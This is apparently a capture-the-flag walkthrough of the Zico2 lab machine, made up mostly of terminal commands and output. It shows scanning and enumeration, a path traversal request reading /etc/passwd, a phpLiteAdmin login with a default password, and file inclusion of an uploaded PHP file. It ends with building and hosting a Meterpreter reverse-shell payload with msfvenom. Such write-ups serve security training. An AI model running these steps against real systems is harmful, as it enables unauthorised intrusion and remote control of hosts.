#### Zico2

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.11  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 85  bytes 14520 (14.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 74  bytes 10647 (10.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 104  bytes 7752 (7.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 104  bytes 7752 (7.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.72.0/16   |   Screen View: Unique Hosts

 9 Captured ARP Req/Rep packets, from 6 hosts.   Total size: 540
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.8     f4:0f:24:33:5e:d1      4     240  Apple, Inc.
 192.168.1.22    08:00:27:98:69:ca      1      60  PCS Systemtechnik GmbH
 192.168.1.22    f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.10    b0:df:3a:de:59:08      1      60  Samsung Electronics Co.,Ltd
 192.168.1.3     40:4e:36:21:db:fd      1      60  HTC Corporation

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/zico2# nmap -sV -sC -oA zico2.nmap 192.168.1.22 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-22 22:53 EDT
Nmap scan report for 192.168.1.22
Host is up (0.00042s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          39745/tcp  status
|_  100024  1          58568/udp  status
39745/tcp open  status  1 (RPC #100024)
MAC Address: F4:0F:24:33:5E:D1 (Apple)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds
root@kali:~/zico2#
```

###### Web Enumeration

```sh
root@kali:~/zico2# dirb http://192.168.1.22

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue May 22 22:54:51 2018
URL_BASE: http://192.168.1.22/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.22/ ----
+ http://192.168.1.22/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.22/css/
==> DIRECTORY: http://192.168.1.22/dbadmin/
==> DIRECTORY: http://192.168.1.22/img/
+ http://192.168.1.22/index (CODE:200|SIZE:7970)
+ http://192.168.1.22/index.html (CODE:200|SIZE:7970)
==> DIRECTORY: http://192.168.1.22/js/
+ http://192.168.1.22/LICENSE (CODE:200|SIZE:1094)
+ http://192.168.1.22/package (CODE:200|SIZE:789)
+ http://192.168.1.22/server-status (CODE:403|SIZE:293)
+ http://192.168.1.22/tools (CODE:200|SIZE:8355)
==> DIRECTORY: http://192.168.1.22/vendor/
+ http://192.168.1.22/view (CODE:200|SIZE:0)

---- Entering directory: http://192.168.1.22/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.22/dbadmin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.22/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.22/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.22/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue May 22 22:54:56 2018
DOWNLOADED: 4612 - FOUND: 8
root@kali:~/zico2#
```

```sh
root@kali:~/zico2# nikto -h http://192.168.1.22
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.22
+ Target Hostname:    192.168.1.22
+ Target Port:        80
+ Start Time:         2018-05-22 22:55:05 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 3803593, size: 7970, mtime: Thu Jun  8 15:18:30 2017
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ 8346 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2018-05-22 22:55:20 (GMT-4) (15 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/zico2#
```

```
http://192.168.1.22
http://192.168.1.22/view.php?page=tools.html
```




```
view-source:http://192.168.1.22/view.php?page=../../etc/passwd
```



```
http://192.168.1.22/dbadmin/
http://192.168.1.22/dbadmin/test_db.php
```





```
Default password: admin
```



```
http://192.168.1.22/dbadmin/test_db.php?action=row_view&table=info
```



```sh
root@kali:~/zico2# searchsploit phpliteadmin
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code I | exploits/php/webapps/24044.txt
phpLiteAdmin - 'table' SQL Injection   | exploits/php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabil | exploits/php/webapps/37515.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerab | exploits/php/webapps/39714.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~/zico2#
```












###### Reverse Shell

```
http://192.168.1.22/view.php?page=../../usr/databases/hack.php
```



```sh
root@kali:~/zico2# msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=4455 -f elf -o shell
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: shell
root@kali:~/zico2#
```

```sh
root@kali:~/zico2# file shell
shell: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, corrupted section header size
root@kali:~/zico2#
```

```sh
root@kali:~/zico2# cp shell /var/www/html/
root@kali:~/zico2# cd /var/www/html/
root@kali:/var/www/html# chmod 777 shell
root@kali:/var/www/html# service apache2 start
```

